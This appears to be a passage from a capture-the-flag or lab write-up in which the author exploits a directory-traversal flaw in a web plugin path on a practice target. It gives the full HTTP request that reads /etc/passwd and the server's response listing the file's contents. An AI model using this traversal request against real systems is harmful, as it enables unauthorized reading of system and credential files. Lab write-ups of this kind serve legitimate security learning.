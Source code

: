 I tried to read `/etc/password`. 

```http
GET /public/plugins/alertlist/../../../../../../../../../../../../../etc/passwd HTTP/1.1
Host: target.htb:3000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: redirect_to=%2Fetc%2Fpasswd
Upgrade-Insecure-Requests: 1
```

And it worked.

```http
HTTP/1.1 200 OK
Accept-Ranges: bytes
Cache-Control: no-cache
Content-Length: 1983
Content-Type: text/plain; charset=utf-8
Expires: -1
Last-Modified: Mon, 14 Mar 2022 02:56:37 GMT
Pragma: no-cache
X-Content-Type-Options: nosniff
X-Frame-Options: deny
X-Xss-Protection: 1; mode=block
Date: Wed, 09 Nov 2022 00:20:01 GMT
Connection: close

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
developer:x:1000:1000:developer:/home/developer:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
```